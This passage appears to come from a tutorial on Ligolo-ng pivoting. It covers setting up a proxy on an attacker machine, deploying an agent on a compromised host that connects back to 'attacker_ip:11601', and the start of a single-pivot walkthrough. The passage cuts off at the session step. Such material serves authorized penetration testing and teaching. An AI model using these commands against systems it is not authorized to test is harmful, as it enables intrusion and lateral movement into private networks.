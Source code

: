 ## Components Overview

Ligolo-ng consists of two main components:

1. **Proxy**: Runs on the attacker's machine and serves as the control server.
2. **Agent**: Deployed on the compromised machine and connects back to the proxy.

## Basic Setup

### Setting up the Proxy (Attacker's Machine)

```bash
# Create the TUN interface (Linux)
sudo ip tuntap add user $(whoami) mode tun ligolo

# Set the TUN interface up
sudo ip link set ligolo up

# Start the proxy
sudo ./proxy -selfcert -laddr 0.0.0.0:11601
```

For Windows:
```powershell
# Install the TAP driver (npcap or OpenVPN TAP driver)
# Then run the proxy
.\proxy.exe -selfcert -laddr 0.0.0.0:11601 -i Ethernet
```

### Deploying the Agent (Compromised Host)

Transfer the agent to the compromised host using your preferred method (web server, SMB, base64 encoding, etc.).

```bash
# Run the agent to connect back to the proxy
./agent -connect attacker_ip:11601 -ignore-cert
```

## Single Pivoting

Single pivoting involves using a compromised host to gain access to another network segment that was previously unreachable.

### Step 1: Establish Connection

After starting the proxy on your attack machine and the agent on your compromised host, you should see a connection established in the proxy console:

```
INFO[0010] Agent joined: 192.168.1.5                    
```

### Step 2: Start Session
